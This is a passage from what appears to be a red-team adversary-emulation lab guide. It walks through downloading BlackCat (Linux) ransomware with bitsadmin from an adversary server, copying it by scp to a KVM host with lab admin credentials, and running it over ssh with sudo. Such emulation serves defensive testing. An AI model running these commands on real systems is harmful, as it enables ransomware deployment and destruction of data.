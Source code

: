 > * start VMs
>   ```
>   sudo virsh start fedora2
>   sudo virsh start test1
>   sudo virsh start test2
>   ```
>
> * check VM state again
>   ```
>   sudo virsh list
>   ```
>
> * terminate SSH session
>   ```
>   exit
>   ```
>
> :fast_forward: Resume red team activity:

* :arrow_right: switch back to your RDP session to the bastion host `kimeramon (10.20.20.11)`

* Open `cmd.exe` (or use an existing cmd.exe running as `zorimoto`) and execute `BITSAdmin.exe` to download
BlackCat (Linux) to the bastion host `kimeramon (10.20.20.11)` from the
adversary server
  ```
  bitsadmin /transfer defaultjob5 /download http://the-inator.com/digirevenge/digirevenge %TEMP%\digirevenge
  ```

* Open PowerShell (non-elevated) and SCP BlackCat to the Linux KVM server
`leomon (10.20.10.16)`, typing `yes` to continue connecting, providing the
Linux KVM server administrator credentials `marakawa` when prompted
  ```
  scp $Env:temp\digirevenge marakawa@10.20.10.16:/tmp/digirevenge
  ```
  
  | Password |
  | -------- |
  | cuL9LmnrdnWqbqcA@ |

* Using PowerShell, execute BlackCat via SSH command to the Linux KVM server,
providing the Linux KVM server administrator credentials when prompted
  ```
  ssh -t marakawa@10.20.10.16 "chmod +x /tmp/digirevenge && sudo /tmp/digirevenge --access-token 15742aa362a84ba3"
  ```

  | Password |
  | -------- |
  | cuL9LmnrdnWqbqcA@ |

#### Verifying BlackCat (Linux) Logs
* :arrow_right: Return to your Kali server and open up a terminal window
